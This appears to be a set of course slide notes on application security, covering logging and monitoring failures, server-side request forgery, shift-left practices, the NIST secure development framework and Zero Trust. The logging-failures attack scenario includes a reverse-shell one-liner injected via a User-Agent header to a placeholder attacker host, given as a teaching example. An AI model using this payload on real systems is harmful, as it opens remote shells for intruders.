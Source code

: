 
Security Logging and Monitoring Failures Attack Scenario
- An attacker inserts malicious code into a log file entry by manipulating user input to a web application
- Injects the code into the user agent string: `User-Agent: Mozilla/5.0; /bin/bash -i >& /dev/tcp/attacker_ip/443 0>&1`

Security Logging and Monitoring Failures Attack Scenario
- Ensure all security related events (login success & failures, access control changes) are logged
- Establish a documented, tested incident response plan/playbook

Server-Side Request Forgery
- An attack vector that exploits an application to interact with the internal/external network or the machine itself

Server-Side Request Forgery Typical Vuln
- Failed web server request validation
- Poor internal network segmentation to restrict lateral movement

Server-Side Request Forgery Prevention
- Enable authentication to all internal systems
- Deploy whitelists of DNS/IP addresses that an application is allowed to access


Shift Left Security
- Incorporating security requirements, security design and security testing earlier in the Software Development Lifecycle (SDLC).

Goals of Shift Left Security
- Identify security design flaws & vulnerabilities as early as possible in the development lifecycle.
- Ensure secure design principles are applied during the design phase

Shift Left Security Common Practices
- Security Policy
- Threat Modelling
- Secure Coding Practices

Shift Left Security - Separation of Privilege
- For highly sensitive operations, split responsibilities between two or more people
- No single person has complete control; requires collusion to exploit

NIST Secure Software Development Framework
- A set of high-level practices based on established standards, guidance and existing secure software development practices
- Provides a basis for planning and implementing a risk-based approach to implementing secure software development practices

Zero Trust
- A security model that eliminates implicit trust, instead focusing on the continuous evaluation of explicit access and trust levels

Zero Trust Tenets
- Assumes a hostile network; that is that an attacker is present
- Does not assume trust based on granted access to a network
- Continuously evaluates trust based on client identity, device characteristics, behavioural and environmental attributes

Zero Trust Assumptions
- Devices on the network may not be owned or configurable by the enterprise
- Remote enterprise subjects and assets cannot fully trust their local network connection
- Assets and workflows moving between enterprise and non-enterprise infrastructure should have a consistent security policy and posture